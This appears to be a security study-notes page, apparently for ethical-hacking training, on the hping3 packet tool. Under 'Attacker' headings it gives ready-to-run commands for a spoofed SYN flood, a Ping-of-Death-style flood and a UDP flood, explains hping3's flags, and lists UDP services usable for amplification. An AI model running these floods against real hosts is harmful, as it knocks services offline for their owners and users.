 ```yaml
---
description: https://www.kali.org/tools/hping3/
---
```


# 👉 Hping3

**Attacker**

`hping3 -S [Target IP] -a [Spoofable IP] -p 22 -flood`

* \-S: Set the SYN flag
* \-a: Spoof the IP address
* \-p: Specify the destination port
* — flood: Send a huge number of packets

**Attacker (Perform PoD)**

hping3 -d 65538 -S -p 21 –flood \[Target IP]

* \-d: Specify data size
* \-S: Set the SYN flag

**Attacker (Perform UDP application layer flood attack)**

* nmap -p 139 10.10.10.19 (check service)
* hping3 -2 -p 139 –flood \[IP]

Other Hping3 flags

* \--udp -> specifies sending the UDP packets to the target host
* \-2 -> specifies UDP mode
* \--rand-source -> enables random source mode
* \--data -> specifies the data body size
* \-d -> specifies the data size
* \-S -> sets the SYN flag
* \-p -> assigning the port to send the traffic
* \-c -> count of packets sent
* \--flood -> performs TCP flooding (sends a huge # of packets)

**Other UDP-based applications and their ports**

* CharGen UDP Port 19
* SNMPv2 UDP Port 161
* QOTD UDP Port 17
* RPC UDP Port 135
* SSDP UDP Port 1900
* CLDAP UDP Port 389
* TFTP UDP Port 69
* NetBIOS UDP Port 137,138,139
* NTP UDP Port 123
* Quake Network Protocol UDP Port 26000
* VoIP UDP Port 5060

{% embed url="https://www.kali.org/tools/hping3/" %}

